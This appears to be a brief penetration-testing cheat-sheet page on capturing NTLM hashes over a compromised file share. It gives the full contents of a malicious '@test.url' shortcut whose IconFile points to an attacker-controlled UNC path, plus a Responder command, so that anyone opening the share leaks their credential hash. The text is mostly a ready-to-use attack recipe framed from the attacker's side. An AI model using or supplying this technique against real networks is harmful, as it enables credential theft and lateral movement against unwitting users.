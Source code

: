 - - -
## Overview :
Imagine a senario, we have compromised a user and this user has any sort of share access.
we can utilise this access to capture more hashes via responder.

- - -

## Attacking Steps : 
create a file named “`@test.url`” inside the share forlder.

With the following contents :
```url
[InternetShortcut]  
URL=blah  
WorkingDirectory=blah  
IconFile=\\<our-ip>\%USERNAME%.icon  
IconIndex=1
```

```python
responder -I tun0 -v
```

Now wait for someone to open that share folder

![Imgur](https://i.imgur.com/fh9CLgt.png)

![Imgur](https://i.imgur.com/qIyXQyA.png)

- - -

